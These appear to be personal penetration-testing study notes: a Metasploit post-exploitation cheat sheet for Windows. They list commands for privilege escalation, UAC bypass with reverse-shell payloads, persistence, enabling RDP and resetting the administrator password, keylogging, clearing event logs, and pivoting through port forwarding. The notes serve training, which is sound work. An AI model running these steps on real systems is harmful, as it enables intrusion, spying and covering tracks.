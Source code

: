 ###### Post Exploitation Fundamentals
- checksum md5 /bin/bash -- to give md5 hash
- search /  -f * flag * 
- `use post/multi/manage/shell_to_meterpreter` -- to shell to c OR
	- sessions -u (session id)

###### Windows Post Exploitation
- Windows Post Exploitations Modules
	- `getsystem` -- will give us the elevated priv
	- show_mount -- will show drive mount details
	- `post/windows/manage/archmigrate` -- will migrate or change the architecture of meterpreter session
	- `post/windows/gather/win_priv` -- to gather privileges enumeration 
	- `post/windows/gather/enum_logged_on_users`
	- `post/windows/gather/checkvm` -- check if server is VM or not and also give host of VM
	- `post/windows/gather/enum_applications` -- will show us what programs are installed on target system
	- `post/windows/gather/enum_av_excluded`
	- `post/windows/gather/enum_computers` -- find info about system in the domain
	- `post/windows/gather/enum_patches` -- enum all the applied patches 
	- `post/windows/gather/enum_shares`
- Bypassing UAC 
	- `net users` -- run on shell and will give list of all accounts
	- `explot/windows/local/bypassuac_injection`
		- `set TARGET windows\ x64`
		- `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
- Establishing Persistence On Windows
	- Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.
	- `exploit/windows/local/persistance_service`
		- `set payload windows/meterpreter/reverse_tcp`
		- `set session [id]`
	- After losing the connection (killing the session)
		- `exploit/multi/handler`
		- `set payload windows/meterpreter/reverse_tcp` --  same as previous
		- `set LHOST [your ip]` -- same as previous
-  Enabling RDP
	- `exploit/windows/mange/enable_rdp`
	- after enabling rdp confirm it via `nmap -p3389 [ip]`
	- use shell in meterpreter session
	- `net user administrator [new password]` -- to change the administrator password
	-  `xfreerdp /u:[USERNAME] /p:[PASSWORD] /v:[IP:PORT]` or `rdesktop -u Administrator -d CONTROLLER 10.10.33.104`
- Windows Keylogging
	- `keyscan_start` -- start the key logging (it is meterpreter cmd)
	- `keyscan_dump` - it will dump the keystroke
- Clearing Windows Event Logs
	- you need elevated priv in order to clear event logs
	- `clearev` -- will clear the logs (it is meterpreter cmd)
	- Pivoting 
		- ![[Pivoting Visualized.png]] ^b2b32b
	- once we have access to victim 1 add it's route to meterpreter by `run autoroute -s 10.10.10.0/24`
	- we cannot scan nmap on victim 2 directly (only within msfconsole), we need to set up port forwarding. Port forwarding essentially allows us to afford the remote port 80 to our local port 1234 
		- `portfwd add -l 1234 -p 80 -r 10.10.10.3` -- it is meterpreter cmd
		- Do not close the msfconsole
		- `nmap -sV -sS -p 1234 localhost`
		- when trying to use exploit use `set PAYLOAD windows/meterpreter/bind_tcp`
